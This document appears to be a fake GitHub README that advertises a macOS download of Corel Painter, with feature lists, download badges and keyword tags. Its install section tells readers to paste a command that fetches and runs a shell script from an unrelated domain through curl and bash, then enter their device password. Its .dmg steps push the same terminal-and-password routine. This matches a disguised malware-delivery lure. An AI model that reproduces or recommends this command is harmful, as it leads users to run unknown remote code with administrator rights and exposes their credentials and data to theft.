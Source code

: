  🎨 Corel Painter — Advanced Digital Painting Software for macOS

**Corel Painter** is a professional-grade digital painting and illustration software designed for macOS. It offers a vast array of brushes, textures, and tools that mimic traditional media, allowing artists to create realistic and expressive artwork digitally.

Corel Painter is widely used by artists, illustrators, and designers who seek a natural painting experience combined with powerful digital capabilities.

---

## ✅ Download Corel Painter for macOS  
[![Download Corel Painter](https://img.shields.io/badge/Download-Corel_Painter-blueviolet)](https://corel-painter-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Corel Painter?

Corel Painter is a sophisticated painting application that provides realistic brushes, customizable tools, and advanced layer controls. It supports pen tablets and touch devices, making it ideal for creating detailed digital art, concept sketches, and fine art reproductions.

---

## ✨ Features

- 🖌️ **Over 900 customizable brushes** emulating real media  
- 🎨 Realistic blending and brush dynamics  
- 🖼️ Multi-layer support with advanced masking  
- 🖋️ Vector and raster brush control  
- 🌈 Extensive texture libraries and paper types  
- 🖥️ Full macOS compatibility with Apple Pencil support  
- 🌙 Dark mode interface and optimized for Apple Silicon  
- 🎥 Time-lapse recording of your painting process  

---

## 💡 Why Use Corel Painter?

- 🎨 Experience natural media digitally with unmatched realism  
- 🧰 Access professional tools tailored for artists and illustrators  
- 📐 Customize brushes and textures for unique artistic styles  
- 🖥️ Utilize full Mac performance with native support  
- 🚀 Perfect for concept artists, fine artists, and digital painters  

---

[![Download Corel Painter](https://img.shields.io/badge/Download-Corel_Painter-blueviolet)](https://corel-painter-mac-download.github.io/.github)

---

## 🖼️ Preview

![Corel Painter Screenshot 1](https://www.macworld.com/wp-content/uploads/2023/01/painter-2019-hero-100767289-orig.jpg?quality=50&strip=all)  
![Corel Painter Screenshot 2](https://static.filehorse.com/screenshots-mac/photo-and-design/corel-painter-screenshot-05.png)

---

## 📌 Tags

corel painter, corel painter essentials, painter essentials,  
corel photo painter, fractal painter, painter essentials 8,  
corel painter essentials 7, corel painter essentials 6,  
corel painter price, corel photo paint online, corel painter ipad,  
corel paint shop pro, corel painter cost, photo corel,  
paint shop pro portable, corel painter mac, corel painter mac download


